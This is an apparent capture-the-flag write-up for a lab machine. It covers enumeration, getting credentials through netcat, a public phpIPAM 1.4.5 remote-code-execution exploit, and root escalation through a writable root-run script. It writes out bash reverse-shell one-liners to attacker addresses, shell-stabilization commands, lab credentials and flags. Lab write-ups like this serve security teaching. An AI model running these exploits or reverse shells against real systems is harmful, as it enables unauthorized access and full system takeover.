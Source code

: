 ```yaml
---
sticker: emoji//1f415
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |



# RECONNAISSANCE
---

If we check the website, we can see this:

![[Pasted image 20250403160350.png]]

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![[Pasted image 20250403160417.png]]

That just takes us to a Youtube video:


![[Pasted image 20250403160441.png]]


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![[Pasted image 20250403160543.png]]

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![[Pasted image 20250403160710.png]]

If we answer correctly, we get the following:

![[Pasted image 20250403160724.png]]

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![[Pasted image 20250403160828.png]]


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![[Pasted image 20250403160856.png]]

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![[Pasted image 20250403161633.png]]

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![[Pasted image 20250403162334.png]]

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![[Pasted image 20250403162450.png]]

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![[Pasted image 20250403164153.png]]

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![[Pasted image 20250403164331.png]]

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![[Pasted image 20250403164633.png]]

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![[Pasted image 20250403164709.png]]



